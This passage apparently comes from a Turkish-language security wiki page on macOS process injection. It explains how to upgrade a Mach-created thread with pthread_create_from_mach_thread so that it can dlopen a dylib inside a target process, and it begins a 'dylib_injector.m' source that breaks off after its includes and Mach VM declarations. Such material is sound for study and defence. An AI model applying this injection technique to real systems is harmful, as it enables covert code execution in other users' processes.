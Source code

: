 Bu işlemi iOS'ta çalıştırmak için, yazılabilir bir belleği yürütülebilir hale getirmek için `dynamic-codesigning` yetkisine ihtiyacınız vardır.
{% endhint %}

### Görev bağlantısı aracılığıyla Thread'e Dylib Enjeksiyonu

macOS'ta **thread'ler**, **Mach** veya **posix `pthread` api** kullanılarak manipüle edilebilir. Önceki enjeksiyonda oluşturduğumuz thread, Mach api kullanılarak oluşturulduğundan **posix uyumlu değildir**.

Bir komutu yürütmek için **basit bir shellcode enjekte etmek mümkündü** çünkü bu, **posix uyumlu api'lerle çalışmaya ihtiyaç duymuyordu**, sadece Mach ile çalışıyordu. **Daha karmaşık enjeksiyonlar** için **thread'in** aynı zamanda **posix uyumlu olması** gerekir.

Bu nedenle, **thread'i iyileştirmek** için **`pthread_create_from_mach_thread`** çağrısı yapılmalıdır ki bu da **geçerli bir pthread oluşturacaktır**. Sonra, bu yeni pthread, sistemden bir dylib yüklemek için **dlopen** çağrısı yapabilir, böylece farklı işlemleri gerçekleştirmek için yeni shellcode yazmak yerine özel kütüphaneler yüklemek mümkün olacaktır.

Örnek dylib'leri (örneğin bir log oluşturan ve ardından dinleyebileceğiniz):

{% content-ref url="../macos-library-injection/macos-dyld-hijacking-and-dyld_insert_libraries.md" %}
[macos-dyld-hijacking-and-dyld\_insert\_libraries.md](../macos-library-injection/macos-dyld-hijacking-and-dyld\_insert_libraries.md)
{% endcontent-ref %}

<details>

<summary>dylib_injector.m</summary>
```objectivec
// gcc -framework Foundation -framework Appkit dylib_injector.m -o dylib_injector
// Based on http://newosxbook.com/src.jl?tree=listings&file=inject.c
#include <dlfcn.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <mach/mach.h>
#include <mach/error.h>
#include <errno.h>
#include <stdlib.h>
#include <sys/sysctl.h>
#include <sys/mman.h>

#include <sys/stat.h>
#include <pthread.h>


#ifdef __arm64__
//#include "mach/arm/thread_status.h"

// Apple says: mach/mach_vm.h:1:2: error: mach_vm.h unsupported
// And I say, bullshit.
kern_return_t mach_vm_allocate
(
vm_map_t target,
mach_vm_address_t *address,
mach_vm_size_t size,
int flags
);

kern_return_t mach_vm_write
(
vm_map_t target_task,
mach_vm_address_t address,
vm_offset_t data,
```